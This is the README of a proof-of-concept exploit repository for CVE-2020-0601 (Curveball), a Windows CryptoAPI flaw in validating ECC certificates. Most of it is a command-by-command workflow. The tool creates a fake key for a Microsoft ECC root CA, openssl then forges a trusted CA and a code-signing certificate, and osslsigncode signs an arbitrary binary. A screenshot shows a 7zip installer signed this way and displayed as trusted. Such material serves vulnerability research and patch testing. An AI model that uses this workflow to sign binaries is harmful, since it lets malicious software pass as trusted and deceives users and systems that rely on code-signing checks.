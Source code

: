 # Curveball
A PoC for [CVE-2020-0601](https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2020-0601). A detailed blog post can be found [here](https://blog.layle.io/uncovering-cve-2020-0601/). This exploit allows you to create a fake trusted certificate by abusing how CryptoAPI handles certain parameters on ECC based certificates.

## Setup
Clone the repository and open it in Visual Studio 2019. Switch to Release and compile it. You can find prebuilt binaries [here]().

## Usage
```bash
.\Curveball.exe MicrosoftECCProductRootCertificateAuthority.cer MicrosoftECCProductRootCertificateAuthority_fake.key
# in linux bash (you can also use Windows but you'd have to get an alternative for osslsigncode). WSL on Windows works fine.
openssl req -new -x509 -key MicrosoftECCProductRootCertificateAuthority_fake.key -out trusted_ca.crt
openssl ecparam -name secp384r1 -genkey -noout -out cert.key
openssl req -new -key cert.key -out cert.csr -config openssl.conf -reqexts v3_cs
openssl x509 -req -in cert.csr -CA trusted_ca.crt -CAkey MicrosoftECCProductRootCertificateAuthority_fake.key -CAcreateserial -out cert.crt -days 10000 -extfile openssl.conf -extensions v3_cs
openssl pkcs12 -export -in cert.crt -inkey cert.key -certfile trusted_ca.crt -name "Code Signing" -out cert.p12
./osslsigncode sign -pkcs12 cert.p12 -n "Signed by Layle" -in <BINARY_TO_SIGN> -out <SIGNED_BINARY>
```

## Result
Note that the 7zip installer is usually not signed!

![trusted](https://github.com/ioncodes/Curveball/blob/master/images/trusted.png?raw=true)
